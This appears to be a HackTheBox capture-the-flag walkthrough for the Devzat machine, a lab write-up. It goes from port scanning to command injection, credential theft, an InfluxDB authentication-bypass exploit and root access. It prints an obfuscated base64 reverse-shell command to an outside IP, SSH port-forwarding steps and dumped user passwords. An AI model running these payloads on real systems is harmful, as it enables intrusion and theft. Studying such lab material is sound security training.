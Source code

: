 ##### Box Name: [Devzat](https://app.hackthebox.com/machines/Devzat)
##### Difficulty: Medium
---

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/devzat.png)

## Enumeration

### Port Scan
##### TCP
```js
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://devzat.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=3/10%Time=622A1FFB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: Host: devzat.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web server enumeration
From the nmap output, we can see that the port 80 is redirecting to http://devzat.htb. We will need to add the hostname `devzat.htb` on our hosts file to be able to visit the website.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/website.png)

We also get an email: `patrick@devzat.htb` on the website.

### Other service enumeration
We have a SSH service at port 8000
While trying to connect, if you get this error message:
```txt
Unable to negotiate with 10.10.11.118 port 8000: no matching host key type found. Their offer: ssh-rsa
```
Add the following line to `/etc/ssh/ssh_config` file to fix the issue:
```txt
HostKeyAlgorithms +ssh-rsa,ssh-dss
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/ssh-chatroom.png)

Logging in, we see it is a chatroom over SSH. It is the [devzat](https://github.com/quackduck/devzat) chat application.
It accepts different syntax options for the text such as:
- `*text*` -> Italic
- `_text_` -> Italic
- `**text**` -> Bold
- `~~text~~` -> strikethrough

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/syntax-options.png)

This made me check for other ways I can play with the text. In this process, I found out that URLs were shown in the markdown format of `[link text](URL of link)`
For example: `http://example.com` would become `[http://example.com](http://example.com)`

In markdown, we can include remote images with the syntax of `![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/URL of image)`. I tried to fetch remote files with this technique and was successful in making a server side request to my python http server. This can be a potential SSRF attack surface.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/remote-fetch-possible.png)

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/capture-request.png)

However, I couldn't do anything beyond simply making a simple get request. So I'll move towards subdomain enumeration.

#### Subdomain enumeration:
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -o ffuf-vhosts.out -u http://devzat.htb -H "Host: FUZZ.devzat.htb" -fw 18
```
Found subdomain:
```bash
pets.devzat.htb
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/pets-devzat-htb.png)

The website takes in Pet name and Pet species. The pet species can be selected from a dropdown list containing different available species on the website's backend. After adding the pet, the website displays the relevant text for that species.

Let's check the request on Burpsuite:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/add-pet-req.png)

After playing with the parameters, we can successfully get command injection. Try the following payload as shown below on the species parameter:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/command-injection-poc.png)

Since we added the `sleep 4` command, the request takes 4 seconds as expected.

## Exploitation
### Foothold
I used the following reverse shell to get a shell on the system:
```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvODAgMD4mMQ== | base64 -d | bash
```

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/revshell.png)

After getting a simple shell, we can get an encrypted SSH shell with the SSH private key found at `~/.ssh/id_rsa`.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/patrick-id-rsa.png)

### Towards User
There are two user accounts on the system:
- patrick
- catherine

Logging in as both patrick and catherine, we see their private chat logs on the devzat chatroom:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/chat-logs.png)

Checking the chat logs on the devzat chatroom as patrick, we can see that there were discussions of patrick and admin about influxdb instance.

Using `netstat`, we can see that the influxdb port 8086 is open:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/netstat-output.png)

To identify the InfluxDB version, we use `curl` and check the `X-Influxdb-Version` header.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/influxdb-version.png)

InfluxDB version: 1.7.5
Doing a quick google search, I found that this version is vulnerable to an authentication bypass vulnerability (CVE-2019-20933) in Influxdb's authenticate function due to an empty shared secret.

There is a public exploit for this vulnerability available on Github
https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

We will use this exploit. First we need to get a SSH port forward of port 8086 to our attacker machine.
```bash
ssh -L 8086:127.0.0.1:8086 patrick@devzat.htb -i patrick-id_rsa -fN
```
![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/influxdb-exploit.png)

Got passwords of three users from the database:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/creds.png)

| User      | Password                         |
| --------- | -------------------------------- |
| wilhelm   | `WillyWonka2021`                   |
| catherine | `woBeeYa*************************` |
| charles   | `RoyalQueenBee$`                   | 

We can switch to user catherine with her password `woBeeYa*************************`

### Privilege escalation to root
From the chat logs we found earlier, it was mentioned that there were source code available in the backups.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/devzat-backups.png)

Download these zip files into our local machine.
Using `grep`, we found a password  `CeilingCat******************` in the backups

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/got-password.png)

In the local dev instance of devzat, we can see a `/file` command that isn't present in the production environment running on port 8000. It requires a password to preview the file. 

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/local-dev-instance.png)

Let's use the password that we found in the source code. We now have the root user's private key and can get a shell as root.

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/root-private-ssh-key.png)

Getting a shell as root is as simple as this:

![](https://raw.githubusercontent.com/xplo1t-sec/CTF/master/HackTheBox/machines/Devzat/images/got-root.png)

Happy Hacking :)

---

